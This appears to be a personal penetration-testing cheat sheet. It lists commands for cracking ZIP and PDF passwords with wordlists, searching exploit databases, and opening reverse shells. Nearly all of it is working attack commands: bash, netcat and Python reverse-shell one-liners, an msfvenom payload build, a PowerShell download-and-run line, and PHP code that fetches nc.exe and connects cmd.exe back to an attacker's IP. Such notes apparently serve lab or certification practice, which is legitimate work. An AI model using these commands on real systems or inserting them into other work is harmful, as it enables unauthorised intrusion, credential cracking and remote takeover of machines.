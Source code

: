 ### File crack
- zip
    - `fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt {ZIP file}}`
    - John:
        - `zip2john {ZIP file} > zip_hash.txt`
        - `john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt`
        - `john --show zip_hash.txt`
- pdf
``pdfcrack -f {PDF file} -w /usr/share/wordlists/rockyou.txt``

# Exploit
## Searchsploit
- Update DB: `searchsploit -u`
- `searchsploit {Name}`
- `searchsploit -x {exploit ID}`
- `searchsploit -m {exploit ID}`

## Reverse Shell
### PHP shell
- Linux: `/home/chw/Desktop/Tool_upload/chw_revshell_linux.php` ([pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php))
- Linux & Windows: `/home/chw/Desktop/Tool_upload/chw_revshell_all.php` ([ivan-sincek](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php))
### Linux
- [Reverse Shell Generator](https://www.revshells.com/)
- Tcp: `/bin/bash -i >& /dev/tcp/{IP}/{Port} 0>&1`
- Udp: `bash -i > /dev/udp/{IP}/{Port} 0>&1`
- Netcat: `nc -e /bin/sh {IP} {Port}`
- Cmd: `echo "wget http://{IP}/shell.sh -O /tmp/shell.sh; chmod +x /tmp/shell.sh; /tmp/shell.sh" > web-control`
- Python3: 
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{Port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
- Python3 (With TTY):
```
python3 -c 'import socket,subprocess,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("{IP}",{Port})); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/bash")'
```
- Python2:
```
python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{Port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
### Windows
- msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={port} -f exe -o chw_windows.exe
```
> `powershell -c \"Invoke-WebRequest -Uri http://192.168.45.165/chw_windows.exe -OutFile C:\\windows\\temp\\rs.exe; Start-Process C:\\windows\\temp\\rs.exe\`
- php
```
$command = shell_exec('mkdir c:\pwn && powershell.exe wget "http://{ip}/nc.exe" -outfile "c:\pwn\nc.exe" && c:\pwn\nc.exe -e cmd.exe {IP} {Port}');
echo "<pre>$command</pre>";
```